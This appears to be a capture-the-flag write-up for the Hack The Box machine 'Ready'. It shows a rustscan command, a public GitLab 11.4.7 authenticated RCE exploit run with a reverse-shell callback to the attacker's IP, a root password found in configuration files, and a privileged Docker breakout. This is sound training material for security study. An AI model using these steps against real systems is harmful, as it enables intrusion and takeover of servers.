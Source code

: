 ## Ready

Difficulty: Medium

## User Flag

```
rustscan -a 10.10.10.220 --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/b26854cb-e9dd-4e1e-99c0-c878a1dd4019)

<br>

In port 5080 there is a GitLab. Register and go to /help to find the version.

![GitLab Version](https://github.com/b1d0ws/OSCP/assets/58514930/3682eeb4-88ec-428b-a3d1-926fc468ce35)

<br>

There is two RCE exploits related to this GitLab version. I tried both of them and didn't work.

![searchsploit](https://github.com/b1d0ws/OSCP/assets/58514930/f49dffe7-12c1-4a39-94a3-e7ab1c0c29ad)

<br>

[This](https://github.com/mohinparamasivam/GitLab-11.4.7-Authenticated-Remote-Code-Execution) is the one that worked for me.

```
python3 gitlab_rce.py -U bido -P Bido192837 -l 10.10.14.3 -p 1337
```

![usingExploit](https://github.com/b1d0ws/OSCP/assets/58514930/414b891f-69f4-43ab-9778-6081f5e43700)

<br>

### Root Flag

LinPeas give us two interesting finds. The first one is related to files in root directory. Here we discover that we are inside a docker container.

![linPeasRoot](https://github.com/b1d0ws/OSCP/assets/58514930/535c6ec6-c350-49fb-b6e7-de4a1cc2b722)

<br>

There are also directories inside /opt. Looking through it, there are some configuration files and one of them has the root password.

![linPeasOpt](https://github.com/b1d0ws/OSCP/assets/58514930/7f95f9d8-9c9e-4dba-b99c-68e4311f1d6a)

![rootPassword](https://github.com/b1d0ws/OSCP/assets/58514930/cf670d26-8414-4bf3-ac35-f24beb5a005c)

<br>

Now that we are root, we can escape the docker mouting the /dev/sda2 partition. This is possible probably because the container has the [--privileged](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation) flag on its configuration.

![dockerEscape](https://github.com/b1d0ws/OSCP/assets/58514930/437dcb0b-9092-4e30-8f1d-d11a6a664a12)
